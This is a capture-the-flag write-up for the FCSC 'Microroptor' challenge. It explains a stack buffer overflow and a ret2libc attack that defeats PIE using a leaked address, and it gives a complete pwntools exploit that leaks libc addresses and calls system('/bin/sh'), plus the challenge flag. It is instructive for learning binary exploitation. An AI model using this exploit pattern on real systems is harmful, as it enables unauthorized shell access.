 # Microroptor

> On vous demande d'exploiter le binaire fourni pour lire le fichier flag qui se trouve sur le serveur distant.
>
> nc challenges.france-cybersecurity-challenge.fr 2052

## Analysis

Let's first reverse the code with Ghidra.

By going into the `entry` function, we can see the first argument of the `__libc_start_main`: this is our main function.

The `main` function is quite small:

```c
undefined8 main(void)
{
  int iVar1;
  char local_28 [32];
  
  printf("%p\n",&PTR_s_m3t4ll1cA_00104010);
  read(0,local_28,0x200);
  iVar1 = strncmp(local_28,PTR_s_m3t4ll1cA_00104010,9);
  if (iVar1 == 0) {
    puts("Welcome back master (of puppets)!");
  }
  else {
    puts("Nope, you are no master.");
  }
  return 0;
}
```

There is a leaked address (which will help us overcome PIE), then `read` reads 0x200 characters from the user but place it only in a 32 bytes buffer, so we have a buffer overflow.

This is a textbook ret2libc with PIE.

## Ret2Libc

In this section I present what the ret2libc attack is.

Here the vulnerability to exploit is a buffer overflow.
The vulnerable buffer is located on the stack, thus we can overwrite it until we change the saved `rip` which defines the next instruction to execute.

Because the stack is not executable, we need to use some executable code. Executable code comes from two sources:
- the executed program ;
- the library linked by the program.

We already know what instructions are available in the executed program as we get the binary.
However, the binary is protected with PIE, which randomizes the base address of the program.
Thanksfully, the code leaks the address of the `PTR_s_m3t4ll1cA_00104010`, thus we can overcome PIE.

The next goal is to determine some addresses of functions in the library. Thanks to their offset, we will be able to determine which library is used.

We can then launch the program again, leak the address of one library function to determine its base address (to overcome ASLR), and call `system('/bin/sh')`.

## Determining the offset

To determine the offset, I just open `gdb`, fill the buffer with some characters and look at the saved rip after entering the characters. This gives me the offset.

## Leaking library functions addresses

In the program, the `puts` function is used to display messages. I can use that to display the address of functions from the library by calling `puts(addr_of_function)`.

In order to call a function, I need:
1) to set its arguments;
2) set the address of the function to call.

For the first step, I need to put the arguments value into the correct registers.

![calling convention](https://i.stack.imgur.com/eaSf7.jpg)

Therefore I need to put the address of functions into the `rdi` register.

To do that, I'm using the `pop rdi; ret` gadget, which pops from the stack the value.

The address of the library functions are stored in the PLT part of the program, which I know.

The code to do that (and return to the main function) is the `get_addr` function.

## Final exploit

Once I know the addresses of a couple functions like `puts` and `printf`, I can get the library used and the offsets to `system` and `/bin/sh` using [this website](https://libc.blukat.me/).

This enables me to call `system('/bin/sh')` with the same technique as above.

```python
#!/usr/bin/env python3
from pwn import *

## Launching the program (remote, local or with GDB)
elf = ELF("./microroptor")
rop = ROP(elf)

context.binary = elf
addr = "challenges.france-cybersecurity-challenge.fr"
port = 2052

def conn():
    if args.LOCAL:
        if args.GDB:
            r = process(["gdb", elf.path])
            r.recvuntil(b"gef\xe2\x9e\xa4")
            r.sendline("b system")
            r.recvuntil(b"gef\xe2\x9e\xa4")
            r.sendline("r")
        else:
            r = process([elf.path])
    else:
        r = remote(addr, port)

    return r

# OFFSET needed to overflow the buffer until the saved rip
OFFSET = b"1"*40

# address of MAIN
MAIN = 0x1178

def get_addr(sh, pie_offset, func_name):
    PUTS_PLT = elf.plt['puts'] + pie_offset
    POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] + pie_offset
    FUNC_GOT = elf.got[func_name] + pie_offset
    print(func_name + " GOT @ " + hex(FUNC_GOT))
    
    payload = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN+pie_offset)
    sh.sendline(payload)
    sh.recvline()

    recv = sh.recvline().strip()
    leak = u64(recv.ljust(8, "\x00".encode()))
    print("Leaked libc address,  "+func_name+": "+ hex(leak))
    if libc != "":
        libc.address = leak - libc.symbols[func_name] #Save libc base
        print("libc base @ %s" % hex(libc.address))
    
    return leak

def launch_shell(sh, printf_addr, pie_offset):
    PUTS_PLT = printf_addr + 0x1f900
    SYSTEM = printf_addr - 0xdea0
    BINSH = printf_addr + 0x133462
    POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] + pie_offset
    
    payload = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM)
    sh.sendline(payload)

def main():
    r = conn()
    r.recvuntil(b"0x")
    leaked_pointer = 0x4010
    real_leaked = r.recvline().strip().decode()
    pie_offset = int(real_leaked, 16) - leaked_pointer
    
    printf_addr = get_addr(r, pie_offset, "printf")
    r.recvuntil(b"0x")
    r.recvline()
    launch_shell(r, printf_addr, pie_offset)

    r.interactive()


if __name__ == "__main__":
    main()
```

Flag: `FCSC{e3752da07f2c9e3a0f9ad69679792e5a8d53ba717a2652e29fb975fcf36f9258}`
